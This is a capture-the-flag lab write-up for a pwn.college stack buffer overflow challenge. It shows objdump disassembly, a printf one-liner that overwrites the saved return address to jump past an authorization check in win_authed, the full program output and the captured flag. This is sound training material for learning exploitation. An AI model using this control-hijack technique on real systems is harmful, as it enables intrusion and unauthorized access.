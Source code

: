 # Binary Exploitation

## Tricky Control Hijack (easy)
Overflow a buffer and smash the stack to obtain the flag, but this time bypass another check designed to prevent you from getting the flag!

### Solve
**Flag:** `pwn.college{0dn4h53CiqG538VSmNkDnMTd104.dlTOywCM4EzNzEzW}`

The file "binary-exploitation-control-hijack-2-w" was in the challenge directory, so we used cd command to go there. Then, "./binary-exploitation-control-hijack-2-w" was executed, which gave the description and instructions of the challenge. It was told that we need to force execute the win-authed function by directly overflowing into the stored return address back to main which 152 bytes after the start of the input buffer. It was also said that along with this we need 8 more bytes to overwrite the return address. The return address must be overwritten with value of a specific address which can be found using "objdump" command as, "objdump -d ./binary-exploitation-control-hijack-2-w" which gave the output as shown below. From this, we got the address to be 401d74(Since this is the first instruction executed if the comparison passes (i.e., the token equals $0x1337$). It sets up the string "You win! Here is your flag:" to be printed.). Therefore, the code to execute the function is "( printf 'A%.0s' {1..152}; printf '\x74\x1d\x40\x00\x00\x00\x00\x00' ) | ./binary-exploitation-control-hijack-2-w". Executing this, gave the output as the flag.

```bash
hacker@binary-exploitation~tricky-control-hijack-easy:/challenge$ objdump -d ./binary-exploitation-control-hijack-2-w 
0000000000401d58 <win_authed>:
  401d58:	f3 0f 1e fa          	endbr64
  401d5c:	55                   	push   %rbp
  401d5d:	48 89 e5             	mov    %rsp,%rbp
  401d60:	48 83 ec 10          	sub    $0x10,%rsp
  401d64:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401d67:	81 7d fc 37 13 00 00 	cmpl   $0x1337,-0x4(%rbp)
  401d6e:	0f 85 fe 00 00 00    	jne    401e72 <win_authed+0x11a>
  401d74:	48 8d 3d 75 13 00 00 	lea    0x1375(%rip),%rdi        # 4030f0

hacker@binary-exploitation~tricky-control-hijack-easy:/challenge$ ( printf 'A%.0s' {1..152}; printf '\x74\x1d\x40\x00\x00\x00\x00\x00' ) | ./binary-exploitation-control-hijack-2-w
The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff7cb3a750 (rsp+0x0000) | 1c 00 00 00 00 00 00 00 | 0x000000000000001c |
| 0x00007fff7cb3a758 (rsp+0x0008) | 38 b9 b3 7c ff 7f 00 00 | 0x00007fff7cb3b938 |
| 0x00007fff7cb3a760 (rsp+0x0010) | 28 b9 b3 7c ff 7f 00 00 | 0x00007fff7cb3b928 |
| 0x00007fff7cb3a768 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007fff7cb3a770 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a778 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a780 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a788 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a790 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a798 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7a0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7a8 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7b0 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7b8 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7c0 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7c8 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7d0 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7d8 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7e0 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a7e8 (rsp+0x0098) | 00 b8 b3 7c ff 7f 00 00 | 0x00007fff7cb3b800 |
| 0x00007fff7cb3a7f0 (rsp+0x00a0) | 90 11 40 00 00 00 00 00 | 0x0000000000401190 |
| 0x00007fff7cb3a7f8 (rsp+0x00a8) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff7cb3a800 (rsp+0x00b0) | 30 b8 b3 7c ff 7f 00 00 | 0x00007fff7cb3b830 |
| 0x00007fff7cb3a808 (rsp+0x00b8) | 26 25 40 00 00 00 00 00 | 0x0000000000402526 |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7fff7cb3a750, and our base pointer points to 0x7fff7cb3a800.
This means that we have (decimal) 24 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 192 bytes.
The input buffer begins at 0x7fff7cb3a770, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 121 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is no "win" variable.
You will need to force the program to execute the win_authed() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7fff7cb3a808, 152 bytes after the start of your input buffer.
That means that you will need to input at least 160 bytes (121 to fill the buffer,
31 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

We have disabled the following standard memory corruption mitigations for this challenge:
- the canary is disabled, otherwise you would corrupt it before
overwriting the return address, and the program would abort.
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

You have chosen to send 4096 bytes of input!
This will allow you to write from 0x7fff7cb3a770 (the start of the input buffer)
right up to (but not including) 0x7fff7cb3b770 (which is 3975 bytes beyond the end of the buffer).
Of these, you will overwrite 3944 bytes into the return address.
If that number is greater than 8, you will overwrite the entire return address.

One caveat in this challenge is that the win_authed() function must first auth:
it only lets you win if you provide it with the argument 0x1337.
Speifically, the win_authed() function looks something like:
    void win_authed(int token)
    {
      if (token != 0x1337) return;
      puts("You win! Here is your flag: ");
      sendfile(1, open("/flag", 0), 0, 256);
      puts("");
    }

So how do you pass the check? There *is* a way, and we will cover it later,
but for now, we will simply bypass it! You can overwrite the return address
with *any* value (as long as it points to executable code), not just the start
of functions. Let's overwrite past the token check in win!

To do this, we will need to analyze the program with objdump, identify where
the check is in the win_authed() function, find the address right after the check,
and write that address over the saved return address.

Go ahead and find this address now. When you're ready, input a buffer overflow
that will overwrite the saved return address (at 0x7fff7cb3a808, 152 bytes into the buffer)
with the correct value.

Send your payload (up to 4096 bytes)!
You sent 160 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff7cb3a750 (rsp+0x0000) | 1c 00 00 00 00 00 00 00 | 0x000000000000001c |
| 0x00007fff7cb3a758 (rsp+0x0008) | 38 b9 b3 7c ff 7f 00 00 | 0x00007fff7cb3b938 |
| 0x00007fff7cb3a760 (rsp+0x0010) | 28 b9 b3 7c ff 7f 00 00 | 0x00007fff7cb3b928 |
| 0x00007fff7cb3a768 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007fff7cb3a770 (rsp+0x0020) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a778 (rsp+0x0028) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a780 (rsp+0x0030) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a788 (rsp+0x0038) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a790 (rsp+0x0040) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a798 (rsp+0x0048) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7a0 (rsp+0x0050) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7a8 (rsp+0x0058) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7b0 (rsp+0x0060) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7b8 (rsp+0x0068) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7c0 (rsp+0x0070) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7c8 (rsp+0x0078) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7d0 (rsp+0x0080) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7d8 (rsp+0x0088) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7e0 (rsp+0x0090) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7e8 (rsp+0x0098) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a7f0 (rsp+0x00a0) | 41 41 41 41 a0 00 00 00 | 0x000000a041414141 |
| 0x00007fff7cb3a7f8 (rsp+0x00a8) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a800 (rsp+0x00b0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fff7cb3a808 (rsp+0x00b8) | 74 1d 40 00 00 00 00 00 | 0x0000000000401d74 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7fff7cb3a770
- the saved frame pointer (of main) is at 0x7fff7cb3a800
- the saved return address (previously to main) is at 0x7fff7cb3a808
- the saved return address is now pointing to 0x401d74.
- the address of win_authed() is 0x401d58.

If you have managed to overwrite the return address with the correct value,
challenge() will jump straight to win_authed() when it returns.
Let's try it now!

Goodbye!
You win! Here is your flag:
pwn.college{0dn4h53CiqG538VSmNkDnMTd104.dlTOywCM4EzNzEzW}
```

### New Learnings
-> The objdump command in Linux is a utility used to display information about object files, including executables, libraries, and object files generated during compilation. It is part of the GNU Binary Utilities (binutils) and is primarily used for debugging, reverse engineering, and analyzing the structure of compiled code.

### References 
https://crypto.stanford.edu/cs155old/cs155-spring16/lectures/02-ctrl-hijacking.pdf
